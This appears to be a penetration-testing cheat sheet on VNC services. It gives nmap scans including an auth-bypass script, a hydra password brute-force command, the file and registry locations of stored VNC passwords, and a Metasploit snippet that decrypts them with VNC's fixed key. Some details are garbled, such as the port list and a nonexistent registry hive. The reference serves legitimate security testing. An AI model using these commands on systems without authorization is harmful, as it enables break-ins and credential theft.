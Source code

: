 # VNC - 5800-58001-5901

### Scans <a href="#scans-1" id="scans-1"></a>

```bash
nmap -sV --script vnc-info,realvnc-auth-bypass,vnc-title -v -p <PORT> <IP>
```

### Brute force <a href="#brute-force-8" id="brute-force-8"></a>

```bash
hydra -L <USERS_LIST> –P <PASSWORDS_LIST> -s <PORT> <IP> vnc -u -vV
```

### Connect <a href="#connect-1" id="connect-1"></a>

<pre class="language-bash"><code class="lang-bash"><strong>vncviewer &#x3C;IP>:&#x3C;PORT>
</strong></code></pre>

### Found VNC password <a href="#found-vnc-password" id="found-vnc-password"></a>

**Linux**

```bash
Default password is stored in: ~/.vnc/passwd
```

**Windows**

```bash
# RealVNC
HKEY_LOCAL_MACHINE\SOFTWARE\RealVNC\vncserver

# TightVNC
HKEY_CURRENT_USER\Software\TightVNC\Server

# TigerVNC
HKEY_LOCAL_USER\Software\TigerVNC\WinVNC4

# UltraVNC
C:\Program Files\UltraVNC\ultravnc.ini
```

### Decrypt VNC password <a href="#decrypt-vnc-password" id="decrypt-vnc-password"></a>

```bash
msfconsole
irb
fixedkey = "\x17\x52\x6b\x06\x23\x4e\x58\x07"
require 'rex/proto/rfb'
Rex::Proto::RFB::Cipher.decrypt ["2151D3722874AD0C"].pack('H*'), fixedkey
/dev/nul
```
